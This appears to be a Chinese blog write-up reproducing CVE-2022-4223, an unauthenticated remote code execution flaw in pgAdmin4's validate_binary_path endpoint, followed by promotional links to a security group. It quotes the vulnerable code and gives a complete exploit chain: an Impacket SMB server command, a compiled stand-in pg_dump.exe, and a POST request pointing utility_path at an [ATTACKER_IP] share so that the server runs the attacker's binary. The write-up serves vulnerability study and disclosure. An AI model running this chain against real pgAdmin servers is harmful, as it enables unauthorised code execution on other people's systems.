





# pgadmin4 远程代码执行漏洞复现(CVE-2022-4223) - komomon - 博客园

> 原文：[`www.cnblogs.com/forforever/p/16979631.html`](https://www.cnblogs.com/forforever/p/16979631.html)

## **影响版本**

< 6.17

## **漏洞分析**

> 就是 os.path.abspath(os.path.join(...))可以访问远程 UNC 路径的文件，subprocess.getoutput() 函数触发执行文件。

漏洞代码

```
 @blueprint.route("/validate_binary_path",
                 endpoint="validate_binary_path",
                 methods=["POST"]) # [1]
def validate_binary_path():
    """
    This function is used to validate the specified utilities path by
    running the utilities with there versions.
    """
    data = None
    if hasattr(request.data, 'decode'):
        data = request.data.decode('utf-8')

    if data != '':
        data = json.loads(data)

    version_str = ''
    if 'utility_path' in data and data['utility_path'] is not None: # [2]
        # Check if "$DIR" present in binary path
        binary_path = replace_binary_path(data['utility_path']) # [3]

        for utility in UTILITIES_ARRAY: # [4]
            full_path = os.path.abspath(
                os.path.join(binary_path,
                             (utility if os.name != 'nt' else
                              (utility + '.exe')))) # [5]

            try:
                # Get the output of the '--version' command
                version_string = \
                    subprocess.getoutput('"{0}" --version'.format(full_path)) # [6]
                # Get the version number by splitting the result string
                version_string.split(") ", 1)[1].split('.', 1)[0]
                ... 
```

HTTP 路由处理程序被定义为/validate_binary_path 触发代码的相应 URI 部分。该 URI 触发的代码要求是 POST 请求。request.data 被读取[2] 处。不用管[3] 中的功能，自己可以检查“为什么”。但是在处，一个常量 `UTILITIES_ARRAY`限制了我们稍后流入 subprocess 调用的最终输入。从 constants.py 可知 UTILITIES_ARRAY = ['pg_dump', 'pg_dumpall', 'pg_restore', 'psql']。此时我们仍然控制 binary_path 变量，可以控制路径，但不能控制最终接收器中执行的文件名。此外，可以已经观察到该 flask_login 模块提供了一个@login_required 注释（检查网络应用程序的其他路由）以检查经过身份验证的上下文。这里缺少这一点，没有进行身份验证，所以能够未经身份验证来进行 RCE。

## **漏洞复现**

使用 Impacket 套件在我们的 Linux 攻击者机器上设置一个 SMB 服务器来尝试一下。

```
./smbserver.py myshare $HOME/tmp 
```

在我的`tmp`目录中，创建了一个以从列表 UTILITIES_ARRAY = ['pg_dump', 'pg_dumpall', 'pg_restore', 'psql']中随机选择的元素命名的文件，例如`pg_dump[.exe]`。

如下是创建一个 c 文件然后编译成 pg_dump.exe

```
void main() {
 system("cmd.exe /K mspaint");
} 
```

然后从浏览到 或 获取 Cookie CSRF 令牌 X-pgA-CSRFToken 等头

最后请求包如下图

```
POST /misc/validate_binary_path HTTP/1.1
Host: [TARGETHOST]
Cookie: [COOKIES_YOU_FETCHED_IN_ADVANCE]
X-pgA-CSRFToken: [CSRF_TOKEN_YOU_FETCHED_IN_ADVANCE]
Connection: close
Referer: https://[TARGETHOST]/browser/
Content-Length: [n]
Content-Type: application/json

{"utility_path":"\\\\[ATTACKER_IP]\\[PREFERED_SHARE_NAME]"} 
```

触发有效载荷后，我们在攻击者机器上看到一个传入的 SMB 连接，检索文件`pg_dump.exe`：Pre-Auth RCE 已实现。



## **最后**

关注公众号【**Z2O 安全攻防**】回复“加群”，添加 Z2OBot 小 K 自动拉你加入 Z2O 安全攻防交流群分享更多好东西。



**知识星球**
团队建立了知识星球，不定时更新最新漏洞复现，手把手教你，同时不定时更新 POC、内外网渗透测试骚操作。感兴趣的可以加一下。



